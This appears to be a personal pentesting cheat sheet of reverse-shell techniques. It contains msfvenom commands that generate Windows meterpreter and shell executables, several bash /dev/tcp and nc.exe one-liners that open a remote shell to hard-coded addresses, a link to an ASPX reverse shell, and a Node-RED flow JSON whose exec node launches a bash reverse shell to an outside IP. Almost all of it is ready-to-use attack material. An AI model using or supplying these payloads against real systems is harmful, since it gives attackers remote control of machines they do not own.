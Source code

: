 # msfvenom
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe 
	msfvenom -p windows/x64/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe		
	bash	-i >&/dev/tcp/10.10.17.185/4242 0>&1
    Aspx/Windows IIS Rev shell : https://github.com/borjmz/aspx-reverse-shell
	
# netcat
    - create a rev shell
	- open a listener by doing nc -lvnp < $rev_shell
	- connect to the listener from the target machine and pipe the tool to execute the shell
	- open 2nd listener for the rev shell 
	- disconnect from the first litener 
	- example 
![[Pasted image 20211004232316.png]]
![[Pasted image 20211004232327.png]]
![[Pasted image 20211004232413.png]]
![[Pasted image 20211004232438.png]]

      nc.exe IP PORT -e powershell
	  
# Bash 
    - bash -i >& /dev/tcp/10.0.0.1/4242 0>&1


# basic Info stealer 



# Json rev shell

```json
[
    {
        "id": "d4a7570d.ab25a8",
        "type": "tab",
        "label": "reverse-shell",
        "disabled": false,
        "info": ""
    },
    {
        "id": "7635e880.e6be48",
        "type": "inject",
        "z": "d4a7570d.ab25a8",
        "name": "Go!",
        "topic": "",
        "payload": "",
        "payloadType": "date",
        "repeat": "",
        "crontab": "",
        "once": false,
        "onceDelay": 0.1,
        "x": 110,
        "y": 60,
        "wires": [
            [
                "eb96f97e.c76c"
            ]
        ]
    },
    {
        "id": "eb96f97e.c76c",
        "type": "exec",
        "z": "d4a7570d.ab25a8",
        "command": "bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'",
        "addpay": true,
        "append": "",
        "useSpawn": "false",
        "timer": "",
        "oldrc": false,
        "name": "",
        "x": 440,
        "y": 100,
        "wires": [
            [
                "dcb8c527.f60348"
            ],
            [
                "dcb8c527.f60348"
            ],
            [
                "dcb8c527.f60348"
            ]
        ]
    },
    {
        "id": "dcb8c527.f60348",
        "type": "debug",
        "z": "d4a7570d.ab25a8",
        "name": "",
        "active": true,
        "tosidebar": true,
        "console": false,
        "tostatus": false,
        "complete": "false",
        "x": 810,
        "y": 140,
        "wires": []
    }
]
```